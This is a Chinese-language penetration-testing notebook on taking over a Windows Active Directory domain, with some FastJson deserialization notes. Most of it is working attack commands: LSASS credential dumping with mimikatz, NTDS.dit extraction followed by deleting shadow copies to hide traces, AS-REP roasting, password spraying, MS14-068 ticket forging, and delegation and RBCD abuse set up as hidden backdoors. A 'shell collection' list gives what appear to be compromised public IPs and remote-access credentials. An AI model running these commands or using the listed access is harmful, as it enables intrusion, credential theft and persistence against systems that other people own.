# 域渗透

```sh
#DC	WindowsServer2012
域名：y5neko.com
NAT：192.168.1.129
静态：192.168.1.250
密码：Y5NEKO0/Administrator:dc@123
还原模式密码：Weiyu200161
NetBIOS域名：Y5NEKO0
其他域用户账号密码：
user1:win71@123
user2:win72@123
普通域管理员账号密码：
admin:admin@123
yueshu:yueshu@123
yeushu1:yueshu1@123
ziyuanyueshu:ziyuanyueshu@123


SYSVOL漏洞测试密码：user@123

#WIN71	Windows7
密码：Administrator:win71@123
静态：192.168.1.3

#Kali
NAT：192.168.1.128
```


## 信息搜集

### 判断域环境

```sh
net config workstation
```

### 找域控

```sh
#fscan扫描netbios
./fscan_amd64 -np -m netbios -h 192.168.1.0/24

#net group命令
net group "domain admins" /domain
net group "domain controllers" /domain
```


### 扫描器快速扫描

```sh
cme smb <ip_range> 							# SMB 扫描存活主机
nmap -sP -p <ip> 							# ping 扫描
nmap -PN -sV --top-ports 50 --open <ip> 	# 快速扫描
nmap -PN --script smb-vuln* -p139,445 <ip> 	# 检测 SMB 漏洞
nmap -PN -sC -sV <ip> 						# 经典扫描
nmap -PN -sC -sV -p- <ip>		 			# 全扫描
nmap -sU -sC -sV <ip> 						# UDP 扫描
```

### 直接利用现有漏洞

```sh
systeminfo 									#查看补丁信息
findstr /S cpassword \test.orgsysvol*.xml		#MS14-025利用
```

#### 永恒之蓝MS17-010

> 远程命令执行，利用多个SMB漏洞进行攻击，因为涉及smb服务，所以需要利用139(TCP)和445(TCP)端口
>
> 涉及到的补丁编号有：
> KB4012598
> KB4012212
> KB4013429
> KB4013198
> KB4012606

#### SYSVOL漏洞MS14-025

> 权限提升，早期的某些版本组策略首选项可以储存加密过的密码，加密方式为AES-256，尽管这种方式很难被攻破，但是微软直接公示了解密私钥
>
> 

#### tomcat

auxiliary/scanner/http/tomcat_enum

tomcat弱密码等，war包后门

#### jboss manager

#### Java反序列化

常见的组件：shiro，weblogic，反序列化，cc链，cb链

exp生成工具：ysoserial

#### searchsploit

查找漏洞

```
searchsploit -u #更新
searchsploit 关键词
```


#### 爆数据库连接

admin/mssql/mssql_enum_sql_logins

#### proxylogon

1、 通过SSRF漏洞攻击,访问autodiscover.xml泄露LegacyDN信息
2、 在通过LegacyDN, 获取SID
3.、然后通过合法的SID,获取exchange的有效cookie
4.、最后通过有效的cookie,对OABVirtualDirectory对象进行恶意操作，写入一句话木马

ProxyLogon是通过利用CVE-2021-26855 SSRF 漏洞，然后使用CVE-2021-27065 任意文件写入漏洞组合进行利用。

https://www.cnblogs.com/nice0e3/p/15762864.html


### 提权

#### winPEAS

> 自动化扫描工具，可用于检测提权
>
> 项目地址：https://github.com/carlospolop/PEASS-ng

- #### 查找含有关键字的文档文件

```sh
查找内容有 password 的文件：findstr /si '{关键字}' *.txt *.xml *.docx
```


- #### 烂土豆提权Rotten Patato  MS16-075

> 通过模仿令牌欺骗 “NT AUTHORITY\SYSTEM”账户通过NTLM认证，对这个认证过程使用中间人攻击（NTLM重放），为“NT AUTHORITY\SYSTEM”账户本地协商一个安全令牌。
>
> 项目地址：https://github.com/foxglovesec/Potato 

#### 多汁土豆提权Juicy Potato

> 项目地址：https://github.com/ohpe/juicy-potato

#### PrintSpoofer

> 项目地址：https://github.com/whojeff/PrintSpoofer

#### RoguePotato

> 项目地址：https://github.com/antonioCoco/RoguePotato

#### SMBGhost  CVE-2020-0796

> 项目地址：https://github.com/chompie1337/SMBGhost_RCE_PoC
>
> https://github.com/dacade/CVE-POC/tree/master/CVE-2020-0796

#### SeriousSAM  CVE-2021-36934

> 允许低权限用户访问SAM文件，该漏洞不影响Server版本
>
> 项目地址：https://github.com/GossiTheDog/HiveNightmare

### 本地管理员进一步提权

#### procdump.exe

```sh
#通过procdump.exe导出lsass.exe进程的内存，lsass进程中缓存有当前登陆密码
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

#### mimikatz

```sh
#通过mimikatz以管理员权限读取明文密码
mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
#通过mimikatz以管理员权限dump lsass进程的内存
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

#### msf hashdump模块

```sh
#前提是msf获取到了目标shell
use post/windows/gather/smart_hashdump
```

#### CrackMapExec

CrackMapExec（CME）是一款后渗透利用工具，可帮助自动化大型活动目录(AD)网络安全评估任务。利用AD内置功能/协议达成其功能，并规避大多数终端防护/IDS/IPS解决方案。

```sh
cme smb <ip_range> -u <user> -p <password> -M lsassy
cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds
```

### 绕过LSA读取密码

```shell
PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp

mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 
```

### token窃取

```sh
#查看本地存储所有的密码
lazagne.exe all
GitHub地址：https://github.com/AlessandroZ/LaZagne
```


```sh
#卷影拷贝（获取域控所有hash）
#通常情况下，即使拥有管理员权限，也无法读取域控制器中的C:\Windows\NTDS\ntds.dit文件。(活动目录始终访问这个文件，所以文件被禁止读取)
#使用Windows本地卷影拷贝服务(volume Shadow Copy Server，VSS)，就可以获取文件的副本(类似于虚拟机的快照)。
#ntds.dit文件是一个数据库，用于存储Active Directory数据，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希。通过提取这些哈希值，可以使用诸如Mimikatz之类的工具执行哈希传递攻击，或使用诸如Hashcat之类的工具来破解这些密码。这些密码的提取和破解可以脱机执行，因此将无法检测到。一旦攻击者提取了这些散列，它们便可以充当域上的任何用户，包括域管理员。
#在活动目录中，所有的数据都保存在ntds.dit中。ntds.dit是一个二进制文件，存储位置为域控制器的%SystemRoot%\ntds\ntds.dit。ntds.dit中包含用户名、散列值、组、GPP、OU等与活动目录相关的信息。它和SAM文件一样，是被操作系统锁定的。

#①利用ntdsutil.exe提取ntds.dit
#创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
#挂载快照
ntdsutil snapshot "mount {f2de785c-15d1-4b9d-bd1a-deeb599c1e2b}" quit quit
#复制ntds.dit
copy C:\$SNAP_202309222110_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

unmount		delete
```


```sh
#②利用vssadmin提取ntds.dit
#创建c盘卷影拷贝
vssadmin create shadow /for=c:
#复制ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit
#导出system.hive文件到注册表 
copy \\?\GLOBALLROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\ntds.dit reg sava hklm\system system.hive 
#删除卷影，隐藏痕迹
vssadmin delete shadows /for=C: /quiet
```


## 本机信息搜集

```
1、用户列表  net user /domain
windows用户列表 分析邮件用户，内网[域]邮件用户，通常就是内网[域]用户

2.进程列表  tasklist /svc
分析杀毒软件/安全监控工具等 邮件客户端 VPN ftp等

3.服务列表	tasklist /svc
与安全防范工具有关服务[判断是否可以手动开关等] 存在问题的服务[权限/漏洞]

4.端口列表	netstat -ano
开放端口对应的常见服务/应用程序[匿名/权限/漏洞等] 利用端口进行信息收集

5.补丁列表	systeminfo
分析 Windows 补丁 第三方软件[Java/Oracle/Flash 等]漏洞

6.本机共享	smbclient -L ip  
		   net user \\ip\c$
本机共享列表/访问权限 本机访问的域共享/访问权限

7.本用户习惯分析
历史记录 收藏夹 文档等
```

### 获取当前用户密码Windows

```sh
#mimikatz
#高版本无法抓取明文密码
privilege::debug
sekurlsa::logonpasswords

#Invoke-WCMDump

mimiDbg

LaZagne

NirLauncher

quarkspwdump
```


### 获取当前用户密码Linux

```sh
mimipenguin
LaZagne
```


## 扩散信息搜集

```sh
#端口扫描
nmap
masscan

#内网拓扑分析
DMZ
管理网
生产网
测试网

#
```

### 常见信息搜集命令

```sh
ipconfig /all ------> 查询本机 IP 段，所在域等

net user ------> 本机用户列表
net localgroup administrators ------> 本机管理员[通常含有域用户]
net user /domain ------> 查询域用户
net group /domain ------> 查询域里面的工作组
net group "domain admins" /domain ------> 查询域管理员用户组
net localgroup administrators /domain ------> 登录本机的域管理员
net localgroup administrators workgroup\user001 /add ----->域用户添加到本机
net group "Domain controllers" -------> 查看域控制器(如果有多台)
net view ------> 查询同一域内机器列表
net view /domain ------> 查询域列表
net view /domain:domainname

dsquery computer domainroot -limit 65535 && net group "domain
computers" /domain ------> 列出该域内所有机器名
dsquery user domainroot -limit 65535 && net user /domain------>列出该域内所有用户名
dsquery subnet ------>列出该域内网段划分
dsquery group && net group /domain ------>列出该域内分组 
dsquery ou ------>列出该域内组织单位 
dsquery server && net time /domain------>列出该域内域控制器 

NETBIOS 信息收集
SMB 信息收集
空会话信息收集
漏洞信息收集等
```


### 域用户枚举

在kerberos的AS-REQ认证中当cname值中的用户不存在时返回包提示`KDC_ERR_C_PRINCIPAL_UNKNOWN`，所以当我们没有域凭证时，可以通过`Kerberos pre-auth`从域外对域用户进行用户枚举。

使用工具https://github.com/ropnop/kerbrute


### AS-REPRoasting

对于域用户，如果设置了选项`Do not require Kerberos preauthentication`(不要求Kerberos预身份认证)，此时向域控制器的88端口发送AS-REQ请求，对收到的AS-REP内容重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式，接下来可以使用`hashcat`或是`john`对其破解，最终获得该用户的明文口令。**默认情况下该配置不会设置**。

使用impacket工具包`GetNPUsers.py`发现不做Kerberos预认证用户：

```sh
GetNPUsers.py -dc-ip 192.168.17.134 0ne.test/zhangsan:zs@123456
GetNPUsers.py -dc-ip 192.168.17.134 0ne.test/zhangsan:zs@123456 -format john -outputfile NPhashes
john --wordlist=/usr/share/wordlists/FastPwds.txt NPhashes

#没有域凭证时,可以用户名枚举来查找未设置预认证的账号
GetNPUsers.py -dc-ip 192.168.1.250 y5neko.com/ -usersfile users.txt

```


可以看到，通过user2普通账户扫描到了域管理员user1


无域凭证


该配置`不要求Kerberos预身份认证`默认不启用，可以给域内高权限用户配置该选项作为后门。

### 密码喷洒攻击

在kerberos的AS-REQ认证中当用户名存在时，密码正确或者错误返回包结果不一样，所以可以尝试爆破密码。

通常爆破就是用户名固定，爆破密码，但是密码喷洒，是用固定的密码去跑用户名。

```sh
./kerbrute_linux_amd64 passwordspray --dc 192.168.1.250 -d y5neko.com user.txt win71@123
```

单用户爆破密码：

```sh
./kerbrute_linux_amd64 bruteuser --dc 192.168.1.250 -d y5neko.com passwords.txt user1
```


### 定位域管理员

使用`PsLoggendon.exe`定位域管理员：
可以查看指定用户域内登录过的主机或是某主机登录过的用户

```sh
PsLoggendon.exe -accepteula administrator
PsLoggendon.exe -accepteula \\DC2012
```


### AdFind

列出域控制器名称：

```bash
AdFind -sc dclist
```


查看域控版本：

```bash
AdFind -schema -s base objectversion
```


查询当前域中在线的计算机(只显示名称和操作系统)：

```bash
AdFind -sc computers_active name operatingSystem
```


查询当前域中所有计算机（只显示名称和操作系统）：

```bash
AdFind -f "objectcategory=computer" name operatingSystem
```


查询当前域内所有用户：

```bash
AdFind -users name
```

查询域内所有GPO信息：

```bash
AdFind -sc gpodmp
```


查看指定域（y5neko.com）内非约束委派主机：

```bash
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))"  cn
```


## 打域控的方法

### SYSVOL

SYSVOL是指存储域公共文件服务器副本的共享文件夹，它们在域中所有的域控制器之间复制。 Sysvol文件夹是安装AD时创建的，它用来存放GPO、Script等信息。同时，存放在Sysvol文件夹中的信息，会复制到域中所有DC上。

**组策略**

组策略全称Group Policy Preferences，也就是GPP，常说的GPP漏洞就是这里的MS14-025漏洞。什么情况下会使用到组策略，系统中我们可以新建用户，默认最高权限账号为administrator，一般在域环境中管理员为了限制大家的权限不会给与administrator权限，这个时候就需要使用GPP来更改所有主机的内置管理员账号密码（user@123）


**原理**

我们提到过组策略可以批量更改所有主机的内置管理员账号密码，在新建完组策略，策略对象并添加本地账号密码后，会再域服务下面目录会生成这几个文件


id正好对应每个组策略的id


进入目录`C:\Windows\SYSVOL\domain\Policies\{0AEAF235-B686-426D-B72C-34C64A71DF70}\Machine\Preferences\Groups`下


其中cpassword的值就是AES加密后的密码密文，正好微软公布了加密密钥


使用kali自带工具直接解密

```shell
gpp-decrypt UVDbExfBIja6+i3M8Rwmwp7om2zdGbS12p4N/pl/AX8
```


**结论**

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹\SYSVOL下，默认所有域内用户可访问，虽然被加密，但很容易被解密

能打域控是因为某些情况下管理员可能会用相同的密码，才有几率可以通过单一密码打下域控，就算不能打下域控也可以通过命令行切换本地管理员账户，达成脱域的攻击

**防御**

补丁KB2962486

### MS14_068

1、获取域普通用户的账号密码
2、获取域普通用户的sid
3、服务器未打KB3011780补丁
4、域控服务器的IP

```
user1:win71@123
S-1-5-21-1493762544-529832293-733686757-1112
192.168.1.250
```


**利用思路**

1、首先利用ms14-068提权工具生成伪造的kerberos协议认证证书（黄金票据）
2、利用mimikatz.exe将证书写入，从而提升为域管理员 
3、测试是否能访问域控C盘目录，能访问则说明提升为域管理员
4、利用PsExec.exe获取域控shell，添加用户并将其加入域管理员组

得到黄金票据之后，通过mimikatz写入内存

```sh
#提取kirbi格式的文件
kerberos::clist "20221114105328_default_192.168.254.133_windows.kerberos_896806.bin" /export

kerberos::purge         //清空当前所有凭证
kerberos::list          //查看当前凭证
kerberos::ptc TGT_tidetest@tide.org.ccache   //将票据注入到内存中

mimikatz.exe "kerberos::ptc c:TGT_user1@Y5NEKO.COM.ccache" exit
net use k: \pentest.comc$
```


## 域委派攻击

域委派是指，将域内用户的权限委派给服务账号，使得服务账号能以用户权限开展域内活动。需要注意的是在域内可以委派的账户有两种，一种是**主机账户**，另一种是**服务账户**(域用户通过注册SPN也可以成为服务账号)。
Kerberos委派主要分为三种：

**非约束委派攻击**：拿到非约束委派的主机权限，如能配合打印机BUG。则可以直接拿到域控权限。
**约束委派攻击**：拿到配置了约束委派的域账户或主机服务账户，就能拿到它委派服务的administrator权限。
**基于资源的约束委派攻击**：1.如果拿到将主机加入域内的域账号，即使是普通账号也可以拿到那些机器的system权限。 2.“烂番茄”本地提权

### 非约束委派

#### 原理

当域用户访问域内某服务时，如果该服务开启了非约束委派，用户会主动将自己已转发的TGT发送服务，而该服务会将用户的TGT保存在内存以备下次重用，然后服务就可以利用该已转发的TGT以用户的身份访问该用户能访问的服务。非约束委派的安全问题就是如果我们找到配置了非约束委派的主机，并且通过一定手段拿下该主机的权限，我们就可以拿到所有访问过该主机用户的TGT。

**配置非约束委派**


**查找非约束委派主机**

```sh
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))"  cn
```


**利用**

当我们在域内拿到一台配置了非约束委派的主机后，就可以使用mimikatz导出所有票据，若是有其他用户访问过该主机，那么我们就可以通过ptt获取该用户权限。

```bash
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
#之后就可以带着票据任意使用了
kerberos::ptt [0;77987]-2-0-40e10000-Administrator@krbtgt-Y5NEKO.COM.kirbi
psexec64.exe \\DC.y5neko.com -accepteula -s cmd
```


### 非约束委派+Spooler打印机服务

普通的非约束委派攻击方式在实战情况下，除非域管理员连接过该服务，否则十分鸡肋，而在特定情况下，可以利用splooer服务让域控主动连接。

利用原理：利用 Windows 打印系统远程协议 (MS-RPRN) 中的一种旧的但是默认启用的方法，在该方法中，域用户可以使用 MS-RPRN RpcRemoteFindFirstPrinterChangeNotification(Ex) 方法强制任何运行了 Spooler 服务的计算机以通过 Kerberos 或 NTLM 对攻击者选择的目标进行身份验证。

也就是说攻击者控制一个开启了非约束委派的主机账户，当域控开启Print Spooler服务时，攻击者可以主动要求域控访问该主机服务器，进而获取DC的TGT


Poc：https://github.com/leechristensen/SpoolSample

接着按照非约束委派的攻击方式即可

### 约束委派

由于非约束委派的不安全性，微软在windows server2003中引入了约束委派，对Kerberos协议进行了拓展，引入了S4U。其中S4U支持两个子协议：

- Service for User to Self(**S4U2self**)
- Service for User to Proxy(**S4U2proxy**)

这两个扩展都允许服务代表用户从KDC请求票证。S4U2self可以代表自身请求针对其自身的Kerberos服务票据(ST)；S4U2proxy可以以用户的名义请求其它服务的ST，约束委派就是限制了S4U2proxy扩展的范围。

不同于允许委派所有服务的⾮约束委派，约束委派的⽬的是在模拟⽤户的同时，限制委派机器/帐户对特定服务的访问。

#### 委派流程

> user访问service1，向DC发起kerberos认证，域控返回user的TGT和ST1票据，user使用ST1票据对service1进行访问；如果配置了service1到service2的约束委派，则service1能使用S4U2Proxy协议将用户发给自己的可转发的ST1票据以用户的身份发给DC；DC返回service1一个用来访问service2的ST2票据,这样service1就能以用户的身份对service2发起访问。

S4U2Self和S4U2proxy的请求过程：


```sh
#S4U2self
1. 用户向service1发出请求。用户已通过身份验证，但service1没有用户的授权数据。通常，这是由于身份验证是通过Kerberos以外的其他方式验证的。
2. 通过S4U2self扩展以用户的名义向KDC请求用于访问service1的ST1。
3. KDC返回给Service1一个用于用户验证Service1的ST1，该ST1可能包含用户的授权数据
4. service1可以使用ST中的授权数据来满足用户的请求，然后响应用户
#尽管S4U2self service1提供有关用户的信息，但S4U2self不允许service1代表用户发出其他服务的请求，这时候就轮到S4U2proxy发挥作用了

#S4U2proxy
5. 用户向service1发出请求，service1需要以用户身份访问service2上的资源。
6. service1以用户的名义向KDC请求用户访问service2的ST2
7. 如果请求中包含PAC，则KDC通过检查PAC的签名数据来验证PAC ，如果PAC有效或不存在，则KDC返回ST2给service1，但存储在ST2的cname和crealm字段中的客户端身份是用户的身份，而不是service1的身份。
8. service1使用ST2以用户的名义向service2发送请求，并判定用户已由KDC进行身份验证
9. service2响应步骤8的请求。
10. service1响应用户对步骤5中的请求。
```

#### 利用原理

由于服务用户只能获取某个用户（或主机）的服务的ST1而非TGT ， 所以只能模拟用户访问特定的服务 ；但是如果能够拿到约束委派用户（或主机）的明文密码或hash，那么就可以伪造S4U的请求，伪装成服务用户以任意用户的权限申请访问指定服务的ST2

此外，我们不仅可以访问约束委派配置中用户可以模拟的服务，还可以访问使用与模拟帐户权限允许的任何服务。 (因为未检查SPN，只检查权限)。 比如，如果我们能够访问CIFS服务，那么同样有权限访问HOST服务。注意如果我们有权限访问到DC的LDAP服务，则有足够的权限去执行DCSync.

**配置约束委派**

首先新建一个专门用于约束委派的账号，然后使用setspn命令注册服务账号

```sh
setspn -U -A 服务名称/主机名.域名 域账号
setspn -U -A yueshu_test/y5neko.com yueshu
```

接着设置委派即可


**查找约束委派账户**

可以使用AdFind工具

```sh
#查询约束委派用户
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
#查询约束委派主机
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
```


也可以使用impacket工具包`findDelegation.py`找出所有的委派配置

```sh
findDelegation.py -dc-ip 192.168.1.250 -target-domain y5neko.com y5neko.com/user1:win71@123
```


#### 利用（后门）

约束委派可以作为变种黄金票据，用作后门权限维持。
给后门账户[知道密码或是hash就成]注册SPN:

```sh
setspn -U -A yueshu1_test/win71 yueshu1
```


配置后门账户到域控的约束委派：

```sh
#查找所有委派设置
findDelegation.py -dc-ip 192.168.1.250 -target-domain y5neko.com y5neko.com/user1:win71@123
```


使用impactet工具包中的getST.py模拟域管理员administrator账号申请访问域控的ldap服务的ST。

```sh
getST.py -dc-ip 192.168.1.250 -spn ldap/DC.y5neko.com -impersonate administrator y5neko.com/yueshu1 -hashes 00000000000000000000000000000000:1851fad1b3b4fb0dbad79a832a42d7d3 		#LMhash可以用32位0填充
```


ptt横向，然后wmiexec到域控获取权限，或是secretsdump后随时随地pth域控

```sh
export KRB5CCNAME=administrator.ccache
klist
wmiexec.py -dc-ip 192.168.1.250 -no-pass -k administrator@dc.y5neko.com
```


secretdump哈希值

```sh
secretsdump.py -k -no-pass dc.y5neko.com -just-dc-user administrator
wmiexec.py y5neko/administrator@192.168.1.250  -hashes aad3b435b51404eeaad3b435b51404ee:7667ec0e5d9f6ed3802e427cf4aa1048
```


#### 利用（横向）

打下配置了约束委派的服务账号，我们就可以拿下被配置的约束委派的服务(A->B)。
和上述利用方式一致：用A账号getST模拟administrator获取访问B的ST，ptt，wmiexec。

### 基于资源的约束委派

#### 概述

基于资源的约束性委派 (**RBCD**：Resource Based Constrained Delegation)：为了使⽤户/资源更加独⽴，微软在Windows Server 2012中引⼊了基于资源的约束性委派。基于资源的约束委派**不需要域管理员权限**去设置，⽽把设置属性的权限赋予给了机器⾃身。

配置了基于资源约束委派的账户，其中有一个属性 `msDS-AllowedToActOnBehalfOfOtherIdentity` ，它的值为被允许基于资源约束性委派的账号的SID。

只有 Windows Server 2012 和 Windows Server 2012 R2 及以上的域控制器才有 `msDS-AllowedToActOnBehalfOfOtherIdentity` 这个属性

在大型域环境中，将机器加入到域环境中一般不会用域管权限，而是用一个专门加域的域用户（例如下边实验中的test的用户）。那么当我们拿下该域用户的账号密码时，就可以把通过该域用户加入到域里的所有机器都拿下。

#### 原理

配置约束委派，必须拥有`SeEnableDelegation`特权，该特权很敏感，通常仅授予域管理员。为了使用户/资源更加独立，Windows Server 2012中引入了基于资源的约束委派。
传统的约束委派是"正向的"，通过将service2的SPN添加到service1的`msDS-AllowedToDelegateTo`属性中，并且配置service1的`TrustedToAuthenticationForDelegation`属性为true。传统的约束委派S4U2self返回的票据一定是可转发的，如果不可转发那么S4U2proxy将失败；但是基于资源的约束委派不同，就算S4U2self返回的票据不可转发，S4U2proxy也是可以成功，并且S4U2proxy返回的票据总是可转发。
同时基于资源的约束委派(RBCD)配置则是相反的，通过将service1的SID添加到service2的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性中，就可以达到相同目的。
基于资源的约束委派具有传统的约束委派的所有安全问题，因为我们只需要拥有修改`msDS-AllowedToActOnBehalfOfOtherIdentity`属性的权限，所以RBCD的利用比较于传统的约束委派场景多也简单。
默认情况下以下账户拥有修改`msDS-AllowedToActOnBehalfOfOtherIdentity`属性的权限：

- **Domain Admins**(域管理员)
- **mS-DS-CreatorSID**(将该机器加入域的账户)
- **NT AUTHORITY\SELF**(机器账户本身)

RBCD的利用条件：

- 能修改`msDS-AllowedToActOnBehalfOfOtherIdentity`属性的权限
- 一个具有SPN的账户的TGT

#### 利用（后门）

首先注册资源约束服务

```sh
setspn -U -A ziyuanyueshu_test/win71 ziyuanyueshu
```


需要域管理员权限，修改krbtgt或是域控的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性，加入已知后门账户的SID。**`Domain Admins`**
使用ActiveDirectory模块，域控2012及以上默认安装。

```sh
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ziyuanyueshu
Get-ADUser krbtgt -Properties PrincipalsAllowedToDelegateToAccount
```


```sh
getST.py -dc-ip 192.168.1.250 -spn krbtgt -impersonate administrator y5neko.com/ziyuanyueshu:ziyuanyueshu@123
export KRB5CCNAME=administrator.ccache
wmiexec.py -dc-ip 192.168.1.250 -no-pass -k administrator@dc.y5neko.com
```


#### 利用（横向）

A配置了到B的RBCD，打下A就可以打下B。**`和约束委派横向利用场景一致`**
某公司有专门加域的域用户A或是其有添加过多台机器入域，获取该账户的权限后，可利用基于资源的约束委派修改机器属性，批量获取机器权限。**`mS-DS-CreatorSID`**
如果我们想拿域内机器A的权限，如果我们又没有机器A的administrators组成员凭据的话还可以看机器A是通过哪个用户加入域的，控制了这个用户A依然可以获取权限。**`mS-DS-CreatorSID`**
如何查找类似的用户，非域管加域机器才会有`mS-DS-CreatorSID`属性：

```sh
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(samAccountType=805306369))" cn mS-DS-CreatorSID
#因为只有一台机器，我这里其实就是user1用户
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(objectsid=S-1-5-21-1493762544-529832293-733686757-1112))" objectclass cn dn
```


假设这个user1是专门加域用的账户，我们通过一定手段拿到了密码，然后添加机器账号，设置ziyuanyueshu1到WIN71的RBCD

```sh
addcomputer.py -dc-ip 192.168.1.250 -computer-name 'ziyuanyueshu1$' -computer-pass ziyuanyueshu1@123 y5neko.com/user1:win71@123
#2021版本
rbcd.py -f ziyuanyueshu1 -t WIN71 -dc-ip 192.168.1.250 y5neko\\ziyuanyueshu:ziyuanyueshu\@123
#新版本
rbcd.py -delegate-to WIN71$ -delegate-from ziyuanyueshu1$ -dc-ip 192.168.1.250 y5neko/ziyuanyueshu:ziyuanyueshu@123 -action write
```


模拟域管理员administrator账号申请访问win7的ST，ptt，然后wmiexec到目标主机:

```sh
getST.py -spn cifs/win71.y5neko.com -impersonate administrator -dc-ip 192.168.1.250 y5neko.com/ziyuanyueshu1$:ziyuanyueshu1@123
wmiexec.py -dc-ip 192.168.1.250 -no-pass -k administrator@win71.y5neko.com
```


> 我在第一次测试的时候wmiexec出现报错0x800706ba
>
> 
>
> 后来查了一下发现是防火墙的报错，关闭即可
>
> 

#### 利用（提权）


# 常见漏洞利用

## Weblogic

### T3协议反序列化CVE-2015-4852

### shell收集

- http://196.219.91.74:9001/		WebLogic10 XMLDecoder		存在Defender		打内存马
- anydesk: 1387106388:weiyu200161
- 3389: Y5neKO:145123/Misr-Elmahrousa
- 31d6cfe0d16ae931b73c59d7e0c089c0
  da39a3ee5e6b4b0d3255bfef95601890afd80709
  da39a3ee5e6b4b0d3255bfef95601890
- http://123.249.98.226:9001/   


## FastJson

### 正常解析

```java
package com.y5neko.sec.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class demo {
    public static void main(String[] args) {
        String s = "{\"param1\":\"test1\",\"param2\":\"test2\"}";
        JSONObject jsonObject = JSON.parseObject(s);
        System.out.println(jsonObject);
        System.out.println(jsonObject.getString("param1"));
    }
}
```


### 指定解析类型为对象

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class demo {
    public static void main(String[] args) {
        //String s = "{\"param1\":\"test1\",\"param2\":\"test2\"}";
        String s2 = "{\"age\":18,\"name\":\"Y5neKO\"}";
        //JSONObject jsonObject = JSON.parseObject(s);
        Person person = JSON.parseObject(s2, Person.class);
        //System.out.println(jsonObject);
        //System.out.println(jsonObject.getString("param1"));
        System.out.println("------------");
        System.out.println(person.getName());
    }
}
```


### 根据字符串反序列化任意类

- 上面是通过操作对应类，从而在类中进行字符串JSON解析生成对象，那如果字符串中前面加了@type，我们可以发现，@type对应的键值是可以直接解析指定的类的，我们可以发现通过传入不同的字符，可以执行不同的代码，这里就相当危险了。
- 至于为什么要引入这个type，我们这里举一个不是很恰当的例子：
- 现在有材料的衣服，一种是布料，一种是速干料，但是两种衣服外表是一样的，在生产过程的标签中（序列化过程），如果不加衣服的材料，在出厂反序列化的过程就会分不清，这样的话就会产生歧义，而如果加上材料，就相当于加上了@type这样的话，我们就可以分清楚衣服的材料对应哪一个衣服，但是又因为@type客户端可控，速干料的衣服就可以被贴上布料的标签，然后以便宜的价格去买到。

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class demo {
    public static void main(String[] args) {
//        String s = "{\"param1\":\"test1\",\"param2\":\"test2\"}";
//        String s2 = "{\"age\":18,\"name\":\"Y5neKO\"}";
//        JSONObject jsonObject = JSON.parseObject(s);
//        Person person = JSON.parseObject(s2, Person.class);
//        System.out.println(jsonObject);
//        System.out.println(jsonObject.getString("param1"));
//        System.out.println("------------");
//        System.out.println(person.getName());
        String s3 = "{\"@type\":\"com.y5neko.sec.fastjson.Person\",\"age\":18,\"name\":\"abc\"}";
        JSONObject jsonObject = JSON.parseObject(s3);
        System.out.println("------------");
        System.out.println(jsonObject);
    }
}
```


可以看到通过解析字符串，最后对Person里面的类进行了解析实例化赋值调用操作，赋值要不就是反射赋值，要不就是set函数去改，我们可以发现这里是通过调用了Person里面的set函数去进行的赋值。

我们在parsePbject方法下个断点分析一下

### 分析


后面几行就是转一个JSONObject，我们直接跟进parse方法


这里调用了DefaultJSONParser类对传入字符串进行解析，一般情况下都是调用这个，接下来调用DefaultJSONParser对象中的parse方法

主要分为两个阶段，一个是对字符串形式的判断，是否为json形式，一个是对key和value的获取，先获取key的值，再获取value的值。


跟进到parse的第二个构造方法，这里是一段switch语句获取token来判断json格式，当开头为 { 时token为12，则进入到LBRACE分支


跟进到parseObject方法，在这里实现获取key的操作，这里我们获取到的是@type


